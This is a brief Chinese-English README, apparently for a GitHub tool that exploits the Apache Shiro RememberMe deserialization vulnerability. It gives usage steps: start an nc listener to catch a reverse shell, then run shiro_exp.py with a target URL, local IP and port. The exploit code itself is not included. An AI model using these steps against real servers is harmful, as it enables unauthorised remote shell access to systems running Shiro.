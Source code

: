 ### Shiro_RememberMe反序列化漏洞利用工具

#### 使用方法

- nc 监听一个端口用于反弹
- 使用shiro_exp



#### Usage

- shiro_exp.py -u [url 目标网址] -lh [localhost 监听器本地IP] -lp [localport 监听端口]

![shiro_3](shiro_3.PNG)

--Hacked by Sunird